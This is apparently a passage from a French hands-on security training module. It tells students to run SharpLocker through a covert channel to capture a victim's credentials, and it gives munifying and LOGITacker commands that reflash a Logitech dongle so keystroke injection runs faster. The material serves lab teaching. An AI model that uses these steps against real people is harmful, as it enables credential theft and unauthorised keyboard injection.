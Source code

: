 SharpLocker (à réaliser en binôme)
--

* https://github.com/Pickfordmatt/SharpLocker

Depuis le covert channel, lancer la commande suivante pour récupérer les identifiants de la victime

```
!sharplock
```

Cross-Firmware-Flashing (A titre informationnel, ne pas flasher les dongles !! risque de brick !) 
--

> Ne pas réaliser cette partie, donner à titre informationnel
> Il est possible de multiplier par **8** la vitesse d'injection en réalisant un ***Cross-Firmware-Flashing***

* https://twitter.com/mame82/status/1167808645490446337?lang=en
* https://medium.com/@enesilhaydin/mini-mini-logitech-rubber-ducky-6016c72916eb
* https://github.com/Logitech/fw_updates

On flash le dongle avec le firmware LIGHTSPEED (vitesse d'injection x 8)

```
$ sudo munifying info
$ sudo munifying flash -f RQR39/RQR39.06/RQR39.06_B0040.shex
$ sudo munifying info
$ sudo munifying unpairall
```

Dans LOGITacker, modifier le mode pour injecter 8 fois plus rapidement en ciblant le dongle flashé

```
LOGITacker (discover) $ options global workmode lightspeed
```

On peut appairer le dongle Unifying avec LOGITacker

```
$ munifying pair
```

```
LOGITacker (discover) $ pair device run
```

Fin du module
--
